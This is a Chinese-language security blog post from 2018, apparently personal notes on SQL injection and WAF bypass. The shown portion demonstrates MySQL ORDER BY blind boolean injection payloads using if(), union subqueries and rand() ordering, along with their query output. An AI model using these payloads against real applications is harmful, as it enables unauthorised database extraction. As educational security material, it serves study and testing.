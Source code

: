 ```yaml
---
layout:     post
title:      常见的sql注入方式和waf绕过
subtitle:   
date:       2018-03-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - sql injection
---
```




朋友分享了一些sql注入和waf绕过的特殊技巧，我这里想简单的记录下......

## 0x01 order by注入
### 1. 盲注
#### 1. 布尔
a. if
```mysql
select * from user where user_id=1 order by 1-if(substr(version(),1,1)=5,1,(select 1 union select 2));
+-------+-----------+---------+
| user  | password  | user_id |
+-------+-----------+---------+
| admin | admintest |       1 |
+-------+-----------+---------+
1 row in set (0.00 sec)
```
b.rand
```mysql
mysql> select rand(true);
+---------------------+
| rand(true)          |
+---------------------+
| 0.40540353712197724 |
+---------------------+
1 row in set (0.00 sec)

mysql> select rand(false);
+---------------------+
| rand(false)         |
+---------------------+
| 0.15522042769493574 |
+---------------------+
1 row in set (0.00 sec)
```
这里可以利用rand(true) rand(false)的值不同，排序注入后面的顺序也不同 
```mysql
mysql> select * from user order by 1-rand(substr(version(),1,1)=5);
+-------+-----------+---------+
| user  | password  | user_id |
+-------+-----------+---------+
| test  | testadmin |       2 |
| admin | admintest |       1 |
| sp4rk | sp4rktest |       3 |
+-------+-----------+---------+
3 rows in set (0.02 sec)

```
c.regexp
